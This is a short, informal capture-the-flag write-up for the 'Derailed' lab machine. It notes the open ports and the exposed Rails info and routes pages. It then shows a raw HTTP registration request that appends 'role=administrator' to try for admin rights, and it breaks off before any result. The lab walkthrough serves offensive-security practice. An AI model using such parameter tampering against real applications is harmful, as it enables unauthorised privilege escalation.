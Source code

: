 ## Derailed (INSANE)






only 2 services 

22 and 3000 http


on the web page there's rails!


i found 2 nice things 

http://derailed.htb:3000/rails/info/properties
http://derailed.htb:3000/rails/info/routes
http://derailed.htb:3000/administration but we have to is admin

## Trying to get admin role 


I saw in the past that in registration flow there was a trick in rails that can lead to exfil admin content page ...




## Registration Process 


```http
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 220
Origin: http://derailed.htb:3000
Connection: close
Cookie: _simple_rails_session=juABz4QPgwvceDT4urH6%2Bpt0GpACnw17w%2F%2BbRRz4OLOzoDpSJR91vc%2F664nvucRx9c7tkKoyyc444LnOK1%2Fe475hXWg07ksn2wMkqC02PyNkcqY4goNIfWVVb6RsBedYK%2FW%2FDAxxZ7sDs4vV4PCzhWP6MJ0fbDRn88wkTKt4feRwpRmmw7DJdMcE71ahvonFu0A8IkKLcm8PGOEmCKwlLqjoypPN%2Fs8MePxw8bVh4FdW8PMqNzw%2B93QSdU%2Bzcf26aAOiMfkJW7W%2BWcbfEXfixiGM%2BIw1W3SV2amvo8s%3D--Gmukk1vQJHKvvb5n--IVzNTRYnOqXzc1EPF0sR8g%3D%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

authenticity_token=Lafd0H-_1qZL8O4HhqP0gt3Zyf_PiuKmsfqW5S1IaRZQ5QS4HtJfGpJPKfMpOcysCHUlpAuonsFeiYhkBQPYxw&user%5Busername%5D=john&user%5Bpassword%5D=doe123&user%5Bpassword_confirmation%5D=doe123&role=administrator

```
